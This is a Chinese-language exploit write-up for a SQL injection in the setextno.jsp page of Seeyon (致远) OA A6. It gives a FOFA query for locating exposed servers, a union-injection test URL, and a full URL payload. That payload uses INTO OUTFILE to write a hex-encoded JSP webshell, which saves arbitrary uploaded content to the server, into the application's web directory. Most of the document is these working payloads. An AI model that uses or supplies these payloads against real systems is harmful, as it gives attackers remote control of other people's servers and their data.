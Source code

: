 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

```
致远OA A6
```

## FOFA

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下Url，其中含有 union注入

```
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```

![image-20220520152851758](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201528813.png)

查看web路径

![image-20220520152913900](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201529936.png)

写入文件上传木马

```
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```

![image-20220520152936293](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201529359.png)